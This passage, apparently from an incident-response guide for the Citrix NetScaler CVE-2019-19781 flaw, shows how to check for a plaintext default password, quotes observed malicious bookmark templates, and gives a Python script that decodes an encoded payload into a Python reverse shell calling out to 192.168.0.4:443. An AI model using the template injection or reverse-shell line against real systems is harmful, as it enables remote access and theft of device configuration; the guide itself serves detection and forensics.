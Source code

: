 Interesting enough, the initial password is in plain-text. `ns.conf.*` files should also be checked.
```
root@ns# grep nsroot /nsconfig/ns.conf.0 
set system user nsroot nsroot
```

Malicious template that has been observed that doesn't execute code in a shell. The following template appears intended to exfiltrate the `ns.conf` file:

```
<bookmark UI_inuse="" descr="b:" title="@FILE@[% USE mydata = datafile('/nsconfig/ns.conf', delim = '
') %][% FOREACH line = mydata %][% FOREACH value = line.values() %][% value %]@BR@[% END %] [% END %]@FILE@" url="http://
```

credit: [@msandbu](https://twitter.com/msandbu/status/1215959733900840963)


### Payloads 

The [Trustedsec](https://github.com/trustedsec/cve-2019-19781/blob/master/citrixmash.py) PoC specifically encodes the payload. It also appears the [Metasploit exploit](https://github.com/rapid7/metasploit-framework/pull/12816/commits/50637d0d917a78f5eba5281f634df0af314d8d55) does the same.

If you see something like this in the dropped template file:

```
    <bookmark UI_inuse="a" descr="desc" title="[% template.new({'BLOCK'='print readpipe(chr(47) . chr(118) . chr(97) . chr(114) . chr(47) . chr(112) . chr(121) . chr(116) . chr(104) . chr(111) . chr(110 <..CUT..>
```

Decode with the script below. In this example we see a reverse python shell:
```
$ python decode.py payload.xml
/var/python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Here is a quick and dirty decoding script (`decode.py`):
```python
import re
import sys

if len(sys.argv) != 2 :
   print "usage: ./decode.py payload.txt"
   sys.exit(1)

f = open(sys.argv[1])
l = [b.rstrip() for b in f.readlines()]
j = "".join(l)
f.close()
a = re.search(r'.*readpipe\((.*)\)\'.*', j)
if a is None :
   print "Can't find encoded payload"
   os.Exit(1)

payload = ""
for i in a.group(1).split('.') :
   c = re.search(r'chr\((\d+)\)',i)
   if c is not None :
      k = int(c.group(1))
      payload = payload + str(chr(k))
print payload
```
